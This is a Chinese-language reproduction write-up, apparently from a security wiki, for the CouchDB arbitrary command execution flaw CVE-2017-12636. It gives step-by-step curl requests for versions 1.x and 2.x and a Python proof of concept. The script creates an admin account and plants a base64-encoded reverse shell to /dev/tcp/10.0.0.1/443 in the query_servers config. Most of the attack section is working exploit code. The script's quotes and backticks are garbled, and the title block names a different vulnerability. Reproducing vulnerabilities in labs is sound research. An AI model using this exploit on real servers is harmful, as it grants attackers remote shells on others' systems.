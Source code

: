 ```yaml
---
title: （CVE-2017-12636）Couchdb 垂直权限绕过漏洞
id: zhfly2857
---
```


# （CVE-2017-12636）Couchdb 任意命令执行漏洞

## 一、漏洞简介

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

## 二、漏洞影响

小于 1.7.0 以及 小于 2.1.1

## 三、复现过程

### 环境搭建

Couchdb 2.x和和1.x的API接口有一定区别，所以这个漏洞的利用方式也不同。本环境启动的是1.6.0版本，如果你想测试2.1.0版本，可以启动[CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635)附带的环境。

执行如下命令启动Couchdb 1.6.0环境：

```
docker-compose up -d 
```

启动完成后，访问`http://www.0-sec.org:5984/`即可看到Couchdb的欢迎页面。

### 漏洞复现

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用**CVE-2017-12635**先增加一个管理员用户。

#### 1.6.0 下的说明

依次执行如下请求即可触发任意命令执行：

```
curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json' 
```

其中,`vulhub:vulhub`为管理员账号密码。

第一个请求是添加一个名字为`cmd`的`query_servers`，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

#### 2.1.0 下的说明

2.1.0中修改了我上面用到的两个API，这里需要详细说明一下。

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

```
curl http://vulhub:vulhub@www.0-sec.org:5984/_membership 
```

![image](../img/74ca4199e94d58ba860c1ec639f01f6f.png)

可见，我们这里只有一个node，名字是`nonode@nohost`。

然后，我们修改`nonode@nohost`的配置：

```
curl -X PUT http://vulhub:vulhub@www.0-sec.org:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"' 
```

![image](../img/cc0412777848ce0cd53eeceb72f49858.png)

然后，与1.6.0的利用方式相同，我们先增加一个Database和一个Document：

```
curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}' 
```

Couchdb 2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

```
curl -X PUT http://vulhub:vulhub@www.0-sec.org:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json" 
```

增加`_view`的同时即触发了`query_servers`中的命令。

### poc

> 修改其中的target和command为你的测试机器，然后修改version为对应的Couchdb版本（1或2），成功反弹shell：

![image](../img/63fcb2c996c163745af12800595758df.png)

```
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = ‘[http://your-ip:5984](http://your-ip:5984)’

command = rb""“sh -i >& /dev/tcp/10.0.0.1/443 0>&1"”"

version = 1

session = requests.session()

session.headers = {

‘Content-Type’: ‘application/json’

}

# session.proxies = {

# ‘http’: ‘[http://127.0.0.1:8085](http://127.0.0.1:8085)’

# }

session.put(target + ‘/_users/org.couchdb.user:wooyun’, data=’’’{

“type”: “user”,

“name”: “wooyun”,

“roles”: ["_admin"],

“roles”: [],

“password”: “wooyun”

}’’’)

session.auth = HTTPBasicAuth(‘wooyun’, ‘wooyun’)

command = “bash -c ‘{echo,%s}|{base64,-d}|{bash,-i}’” % base64.b64encode(command).decode()

if version == 1:

session.put(target + (’/_config/query_servers/cmd’), data=json.dumps(command))

else:

host = session.get(target + ‘/_membership’).json()[‘all_nodes’][0]

session.put(target + ‘/_node/{}/_config/query_servers/cmd’.format(host), data=json.dumps(command))

session.put(target + ‘/wooyun’)

session.put(target + ‘/wooyun/test’, data=’{"_id": “wooyuntest”}’) `if version == 1:

session.post(target + ‘/wooyun/_temp_view?limit=10’, data=’{“language”:“cmd”,“map”:""}’)

else:

session.put(target + ‘/wooyun/_design/test’, data=’{"_id":"_design/test",“views”:{“wooyun”:{“map”:""} },“language”:“cmd”}’)` 
```

## 参考链接

> https://vulhub.org/#/environments/couchdb/CVE-2017-12636/